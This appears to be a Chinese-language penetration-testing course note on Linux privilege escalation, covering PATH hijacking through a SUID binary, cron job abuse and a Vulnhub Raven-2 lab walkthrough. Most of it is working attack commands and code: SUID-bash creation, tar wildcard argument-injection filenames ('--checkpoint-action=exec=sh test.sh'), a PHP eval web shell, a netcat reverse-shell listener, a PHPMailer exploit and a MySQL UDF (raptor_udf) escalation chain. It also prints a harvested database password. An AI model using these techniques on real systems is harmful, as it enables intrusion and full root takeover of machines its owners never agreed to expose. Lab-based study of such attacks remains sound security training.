

# 思维导图


# 演示案例：

## Linux 提权本地环境变量安全-Aliyun

### 案例 1：Linux 提权本地环境变量安全-Aliyun

条件

- 配合 SUID 进行环境变量提权
- 本地用户权限

过程：手写调用文件-----编译------复制文件------增加环境变量------执行触发

```shell
gcc demo.c -o shell
cp /bin/sh /tmp/ps
export PATH=/tmp:$PATH
./shell
id
```


##### demo.c

```c
#include<unistd.h>
void main()
{
	setuid(0);
	setgid(0);
	system("ps");	
}
```

##### 复制文件

cp /bin/sh /tmp/ps，把/bin/sh复制给/tmp/ps，ps命令本来是用于显示当前进程的状态，复制后执行./ps就变成了执行sh命令。


##### 增加环境变量

```shell
export PATH=/tmp:$PATH
```


##### chmod u+s shell，./shell执行触发demo.c里面的ps命令

视频中是能够提权的，本地的虚拟机环境，没有成功


## Linux 提权本地定时任务安全-Aliyun

### 案例 2-Linux 提权本地定时任务安全-Aliyun

#### 第一种：路径问题

##### 原理

- 利用计划任务指向的文件的相对路径解析问题

```shell
cat /ect/crontab
echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' > /home/xiaodi/test.sh
chmod +x /home/xiaodi/test.sh
/tmp/bash
```

##### 执行cat /etc/crontab命令

查看当前系统的定时任务，发现一个test.sh任务没有写绝对路径，而且是以root权限运行的。


定时任务中的test.sh没有写绝对路径，但我们知道它默认就是调用/usr/local/bin目录下test.sh。（我们自己写来测试用的)


打开看一下，发现此定时任务是每隔一分钟将系统日期写入/tmp/time.log。


等1分钟，发现确实/tmp目录下生成了time.log，内容是当前时间。


​	那我们该如何利用这个定时任务提权呢？方法就是在用户目录下写入一个与test.sh同名的文件，执行，此时定时任务以root身份调用的就是我们写的 /home/xiaodi/test.sh，而不是系统原来的/usr/local/bin/test.sh，从而提权。但是测试发现并没有提权成功。

```shell
echo 'cp bin/bash /tmp/bash; chmod +s /tmp/bash' > /home/xiaodi/test.sh
chmod +x /home/xiaodi/test.sh
/tmp/bash
```


#### 第二种：命令问题

##### 原理

- 利用通配符配合命令参数自定义命令实现提权

不安全定时任务备份命令

- 参考命令：[https://www.cnblogs.com/manong--/p/8012324.html](https://www.cnblogs.com/manong--/p/8012324.html)

```shell
cd /home/undead/script;tar czf /tmp/backup.tar.gz *
echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' > /home/undead/script/test.sh
echo "" > "--checkpoint-action=exec=sh test.sh"
echo "" > --checkpoint=1
```

##### 执行cat /etc/crontab命令

查看当前系统的定时任务，发现一个名为backup.sh的备份定时任务，而且是以root权限运行的。


定时任务每分钟执行一次，打开backup.sh，发现是将 /home/undead/script目录下的所有文件打包为backup.tar.gz，并放到/tmp目录下。


使用以下命令，在/home/undead/script目录下创建3个文件

```shell
echo 'cp bin/bash /tmp/bash; chmod +s /tmp/bash' > /home/undead/script/test.sh
echo "" > "--checkpoint-action=exec=sh test.sh"
echo "" > --checkpoint=1
```


等待一分钟，系统定时任务执行，打包，打开/tmp目录查看，发现test.sh等文件打包为一个backup.tar.gz文件，但我们刚才创建的另外两个文件并未在backup.tar.gz中，而是另外生成了一个bash文件。


这是为什么呢？原因是定时任务打包时使用了*将整个文件夹下的文件打包，而当系统真正执行打包操作时，会将目录下的所有文件名一个一个传参给*执行打包操作。前几个文件都没问题，但是当打包到--checkpoint=1文件和--checkpoint-action=exec=sh test.sh文件时，执行的相当于

```shell
tar czf /tmp/backup.tar.gz --checkpoint=1 --checkpoint-action=exec=sh test.sh
```

而 --checkpoint、--checkpoint-action正好是tar命令的参数，打包到这里就会导致tar命令直接把--checkpoint=1和--checkpoint-action=exec=sh test.sh两个文件名当做参数执行，而不打包文件。

​	--checkpoint-action=exec=sh test.sh参数的意思是执行同目录下test.sh文件，test.sh文件内容又是

```shell
cp bin/bash /tmp/bash; chmod +s /tmp/bash
```

把 bin/bash拷贝给/tmp/bash并给/tmp/bash赋SUID权限。此时我们再执行/tmp/bash就享有了suid权限，所以这里是一环套一环的


类似tar提权的命令还有chown、chmod、rsync

#### 第三种：权限问题

##### 原理

- 利用不安全的权限分配操作导致的定时文件覆盖

原理解读：管理员正常创建一个文件test.sh时，默认是没有执行权限的，此时管理员若想执行这文件，必须给它赋执行权限，正常的赋权命令是chmod +x test.sh，这样就可以执行test.sh并且组和其他成员无法修改覆盖这个文件（即写权限），但是粗心的管理员会直接chmod 777 test.sh，这样虽然也可以实现执行test.sh的目的，但是会导致权限扩大，即组和其他成员都可以对文件修改覆盖，造成风险。


##### 执行cat /etc/crontab命令

查看当前系统的定时任务，发现一个名为check.sh的定时任务，而且是以root权限运行的。


##### 测试check.sh文件是否有权限问题。

可以以普通用户身份直接修改check.sh文件，如果能修改成功，说明存在权限问题，也可以直接执行ls -l check.sh，查看check.sh的权限，如果是-rwxrwxrwx，说明存在权限问题。只要存在权限问题，就可利用提权。


##### 提权利用

可以模仿上述方法，直接写入命令到定时任务check.sh，从而成功提权。

vim命令打开check.sh文件，写入

```shell
cp bin/bash /tmp/bash; chmod +s /tmp/bash
```

等待定时任务执行后，执行/tmp/bash，提权成功。


## Linux 提权第三方服务数据库-Vulnhub

### 案例 3：Linux 提权数据库 MYSQL_UDF-Vulnhub

靶机下载：

- [https://www.vulnhub.com/entry/raven-2,269/](https://www.vulnhub.com/entry/raven-2,269/)

流程

**Vulnhub某靶机-----探针 IP 及端口-----利用漏洞获取 web 权限-----信息收集-----查看数据库配置文件-----利用 Mysql 提权 Linux（Mysql 版本区别同 Windows）**

##### 确定网段


##### 探针 IP 及端口

```shell
nmap 192.168.80.0/24
```


发现192.168.80.142：80是个站点


使用dirsearch进行扫描网站目录


使用的是wordpressCMS搭建的网站


网站目录路径为/var/www/html/


发现使用了phpmailer。


phpmail安全问题


phpmail 版本为 5.2.17


phpmail界面


##### 利用 phpmailer 漏洞

exp下载地址

[https://www.exploit-db.com/download/40974](https://www.exploit-db.com/download/40974)

需要修改几个地方


运行exp


点击`http://192.168.80.142/contact.php`链接以后就会在网站根目录生成一个shell.php


 再次在浏览器打开`http://192.168.80.142/shell.php`触发生成一个反弹shell

```
nc -lnvp 4444
```


##### 写入后门连接方便操作

```php
echo '<?php eval($_POST[x]);?>' >1.php
```


##### 上传信息收集脚本进行提权信息收集


没有执行权限，需要赋权,然后执行

```shell
chmod +x LinEnum.sh
./LinEnum.sh
```



##### 检测到系统装有第三方软件——mysql数据库，版本为5.5.60


##### 翻阅数据库配置文件获取 root 密码

```shell
ls
cd wordpress
ls
cat wp-config.php
```


`R@v3nSecurity`

##### 利用 Mysql 提权 searchsploit

下载 mysql udf poc 进行编译  (在靶机上进行编译出错，最好还是在本机进行编译再上传）

```shell
wget https://www.exploit-db.com/download/1518
mv 1518 raptor_udf.c
gcc -g -c raptor_udf.c
gcc -g -shared -o raptor_udf.so raptor_udf.o -
mv raptor_udf.so 1518.so
```

下载 1518 到目标服务器
wget https://xx.xx.xx.xx/1518.so


进入数据库进行 UDF 导出

```shell
use mysql;
create table foo(line blob);
insert into foo values(load_file('/tmp/1518.so'));
select * from foo into dumpfile '/usr/lib/mysql/plugin/1518.so';
```


创建 do_system 函数调用

```shell
create function do_system returns integer soname '1518.so';
select do_system('chmod u+s /usr/bin/find');
```

莫名其妙的我失败了，此时一声卧槽，我破防了。。。。。


##### 配合使用 find 调用执行

```shell
find / -user root -perm -4000 -print 2>/dev/ null
touch xiaodi
find xiaodi –exec "whoami" \;
find xiaodi –exec "/bin/sh" \;
id
```

视频中是成功的！


## Linux 提权提升漏洞查找关注点-拓展总结

### 案例 4-Linux 提权提升简单总结归类-参考 PDF

1.提权环境，信息收集(SUID,定时任务,可能漏洞，第三方服务应用等)
2.最新相关漏洞要明确(关注点)，二次开发相关脚本学会展望(四个脚本)
3.本地 searchsploit 脚本及远程 exploitdb 站点搜索说明（简要使用）
4.其他提权方法如：密码复用，guid，sudo 等说明(运气，同理，鸡肋等)
SUDO 说明参考：https://www.freebuf.com/vuls/217089.html


# 涉及资源：

[https://www.exploit-db.com/](https://www.exploit-db.com/)
[https://www.vulnhub.com/entry/raven-2,269/](https://www.vulnhub.com/entry/raven-2,269/)
[https://github.com/offensive-security/exploitdb](https://github.com/offensive-security/exploitdb)


